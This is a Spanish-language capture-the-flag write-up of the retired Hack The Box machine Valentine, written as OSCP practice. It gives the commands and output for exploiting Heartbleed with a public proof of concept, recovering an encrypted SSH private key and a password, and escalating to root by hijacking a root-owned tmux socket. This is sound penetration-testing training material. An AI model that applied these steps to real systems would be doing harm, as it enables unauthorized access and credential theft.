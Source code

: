 ```yaml
---
layout: post
title:  "OSCP Path ~ Valentine de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada VALENTINE siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, HeartBleed, fcrackzip, Tmux-Priv, Maquinas Retiradas, Writeup, Hacking
---
```


# Valentine ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10. 79      "
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2021-05-04T17:49:21+00:00; +1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Lanzamos el script de `http-enum.nse`:
```bash
# nmap --script http-enum -p80,443 10.10.10.79 -oN Webscan                                                                        

PORT    STATE SERVICE
80/tcp  open  http
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
443/tcp open  https
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
```
Vamos a proseguir lanzando scripts de nmap para identificar vulnerabilidades:
```bash
# nmap --script ssl-heartbleed.nse -p22,80,443 10.10.10.79 -oN HeartbleetScan 

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://cvedetails.com/cve/2014-0160/
|_      http://www.openssl.org/news/secadv_20140407.txt 
```
# Definicion de Heartbleed
Heartbleed (español:  hemorragia de corazón) es un agujero de seguridad de software en la  biblioteca de código abierto OpenSSL,
solo vulnerable en su versión  1.0.1f, que permite a un atacante leer la memoria de un servidor o un  cliente, permitiéndole por ejemplo,
conseguir las claves privadas SSL de  un servidor.

Podriamos a ver conseguido ver que es vulnerable lanzando el siguiente comando tambien basado en cateegorias de scripts de nmap
```bash
nmap --script “vuln and safe” 10.10.10.79 -oN ScanManchine
```

# Explotando Heartbleed
Exploit funcional de Heartbleet
https://raw.githubusercontent.com/sensepost/heartbleed-poc/master/heartbleed-poc.py
Lo descargamos y Lo usamos de la siguiente forma:

Donde `-n` es para el `numero de ataques/peticiones` 
Y `-f` para `guardar el resultado` en un `archivo` de output.

```bash
─# python heartbleed-poc.py 10.10.10.79 -n 150 -f heardbleed_out.txt
```
Conseguimos sacar atraves del exploit una cadena de nbase 64 que anotamos en hases como contraseña.
```bash
# echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d                 
"heartbleedbelievethehype"
```
Chequeamos la web en las rutas que script `http-enum` nos habia enumerado.
En la ruta `http://10.10.10.79/dev/`
Encontramos un directory listing con dos archivos
```bash
hype_key
notes.txt
```
Aqui encontramos un archivo en formato `HEX` que reverseamos con el comando `xxd -ps -r` y le pasamos el archivo almacenado con nombre `hex`.
```bash
# xxd -ps -r hex 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY----- 
```
Credenciales: User - `hype` 
Procedemos a intentar conectarnos por `SSH` con las credenciales obtenidas y la `id_rsa`
```bash
# ssh -i id_rsa hype@10.10.10.79             
Enter passphrase for key 'id_rsa':  
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
hype@Valentine:~$ cd Desktop/
hype@Valentine:~/Desktop$ ls
user.txt
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd2xxxxxxxxxxxxxxx
```
Conseguimos conectarnos y conseguimos la flag del `user.txt`

# Escalada de Privilegios
Procedemos a enumerar un poco el sistema con comandos basicos:
Usamos el comando `ìd` para ver los grupos a los que pertenece el usuario `hype` 
```bash
hype@Valentine:~/Desktop$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)
```
Usamos el comando `uname -a` para sacar informacion sobre el sistema
```bash
hype@Valentine:~/Desktop$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```
Vemos si tiene algun puerto relevante internamente con el comando `netstat -antp`
```bash
hype@Valentine:~/Desktop$ netstat -antp
(No info could be read for "-p": geteuid()=1000 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0    488 10.10.10.79:22          10.10.14.12:49820      ESTABLISHED -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 :::443                  :::*                    LISTEN      -  
```
Procedemos a realizar uso del comando `ps -aux` para listar los comandos que se estan ejecutando a nivel de sistema.
Encontramos una session de `tmux` en la ruta `/.devs/dev_sess` en los procesos. Intentamos apuntar a ella.
```bash
hype@Valentine:~/Desktop$ ps -aux
Warning: bad ps syntax, perhaps a bogus '-'? See http://procps.sf.net/faq.html
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root       1017  0.0  0.1  26416  1672 ?        Ss   05:10   0:00 /usr/bin/tmux -S /.devs/dev_sess
```
Conseguimos acceder al directorio `/.devs` y procedemos a intentar apropiarnos de la sesion de `tmux`
```bash
hype@Valentine:~/Desktop$ cd /.devs/
hype@Valentine:/.devs$ ls
dev_sess
```
Nos conseguimos apropiar de la session correctamente y vemos que ya somos `root`.
```bash
hype@Valentine:/.devs$ tmux -S dev_sess
```
Sacamos la flag de root
```bash
root@Valentine:/.devs# whoami
root
root@Valentine:/.devs# cat /root/root.txt
f1bb6d759df1f272914exxxxxxxxxxxxx
```

Maquina Rooteada =D 
